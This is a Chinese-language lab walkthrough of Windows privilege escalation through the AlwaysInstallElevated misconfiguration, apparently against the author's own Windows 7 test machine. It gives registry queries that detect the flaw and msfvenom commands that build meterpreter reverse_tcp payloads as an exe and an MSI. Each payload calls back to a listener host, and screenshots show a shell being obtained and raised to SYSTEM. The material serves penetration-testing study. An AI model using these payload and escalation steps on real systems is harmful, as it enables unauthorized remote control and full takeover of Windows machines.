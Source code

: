 ### AlwaysInstallElevated 提权

如果 **系统管理员错误地同时开启了 HKLM 和 HKCU 的 AlwaysInstallElevated = 1**，那么：

1. **任意用户**（包括低权限普通用户）
    可以运行 `msiexec.exe /i malicious.msi`
2. 因为策略允许以 SYSTEM 权限安装 MSI，
    所以 `msiexec.exe` 会把这个恶意 MSI 包 **在 SYSTEM 权限下执行**
3. 攻击者只需构造一个恶意 MSI 包，在安装脚本中放置任意代码（例如写入管理员账户、启动反弹 shell、执行木马）
4. 结果：普通用户 → SYSTEM 提权

搭建环境，win + r 运行 `gpedit.msc`

计算机配置 –> 管理模板 –> Windows 组件 –> Windows Installer

点击“ 始终以提升的权限进行安装 ”，选择“ 已启用 ”，点击确定即可

![](https://pic1.imgdb.cn/item/68d1fab1c5157e1a8828a43f.png)

实战中只需要查看注册表中的两项值是否为 0x1 , 也就是开启状态 , 如果是开启的 , 说明存在错误配置提权漏洞

```cmd
reg query HKEY_LOCAL_MACHINE\software\policies\microsoft\windows\installer
reg query HKEY_CURRENT_USER\software\policies\microsoft\windows\installer
```

![](https://pic1.imgdb.cn/item/68d1faf6c5157e1a8828a87d.png)

使用 MSF 生成木马远程连接

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.41.156 LPORT=8001 -f exe > AlwaysInstallElevated.exe
```

![](https://pic1.imgdb.cn/item/68d1fbf7c5157e1a8828b7ff.png)

开启 HTTP 服务

![](https://pic1.imgdb.cn/item/68d1fc10c5157e1a8828b91d.png)

靶机访问下载

![](https://pic1.imgdb.cn/item/68d1fc44c5157e1a8828bb4b.png)

使用监听模块

![](https://pic1.imgdb.cn/item/68d206a8c5157e1a8828e678.png)

配好参数开始监听

![](https://pic1.imgdb.cn/item/68d2074ec5157e1a8828ee1d.png)

Windows 7 运行上线

![](https://pic1.imgdb.cn/item/68d2079ec5157e1a8828f20d.png)

bg 放后台

![](https://pic1.imgdb.cn/item/68d207c5c5157e1a8828f3fe.png)

生成一个 msi 文件

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.41.156 lport=8445 -f msi > AlwaysInstallElevated.msi
```

![](https://pic1.imgdb.cn/item/68d2083bc5157e1a8828f944.png)

更改端口运行

![](https://pic1.imgdb.cn/item/68d208dac5157e1a88290080.png)

靶机下载上线（或者 MSF 直接传过去运行）

![](https://pic1.imgdb.cn/item/68d20906c5157e1a8829024e.png)

上线成功

![](https://pic1.imgdb.cn/item/68d209b9c5157e1a882909a0.png)

SYSTEM 权限

![](https://pic1.imgdb.cn/item/68d20a02c5157e1a88290d11.png)
